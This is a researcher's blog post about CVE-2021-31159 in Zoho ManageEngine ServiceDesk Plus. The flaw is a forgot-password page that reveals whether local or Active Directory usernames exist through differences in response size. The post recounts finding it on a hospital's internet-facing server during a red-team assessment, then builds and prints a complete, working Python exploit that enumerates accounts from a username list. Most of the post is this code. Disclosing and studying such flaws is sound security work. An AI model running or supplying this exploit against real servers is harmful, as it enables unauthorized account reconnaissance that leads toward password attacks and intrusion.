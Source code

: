 ```yaml
---
layout: post
title: Abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
---
```



Link: [https://github.com/ricardojoserf/CVE-2021-31159](https://github.com/ricardojoserf/CVE-2021-31159)


## About the vulnerability

This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is always the same.

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

[Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)


In the "forgot password" page, if the user does not exist you get a message like this:

[Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

[Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

Then I tested all the alphabet with other common surname, García, using Burp:

[Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

[Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
	users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
	correct_users = []
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is (this script)[https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py]:

```
# Exploit Title: Zoho ManageEngine ServiceDesk Plus MSP - Active Directory User Enumeration (CVE-2021-31159)
# Date: 17/06/2021
# Exploit Author: Ricardo Ruiz (@ricardojoserf)
# CVE: CVE-2021-31159 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
# Vendor Homepage: https://www.manageengine.com
# Vendor Confirmation: https://www.manageengine.com/products/service-desk-msp/readme.html#10519
# Version: Previous to build 10519
# Tested on: Zoho ManageEngine ServiceDesk Plus 9.4
# Example: python3 exploit.py -t http://example.com/ -d DOMAIN -u USERSFILE [-o OUTPUTFILE]
# Repository (for updates and fixing bugs): https://github.com/ricardojoserf/CVE-2021-31159

import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```
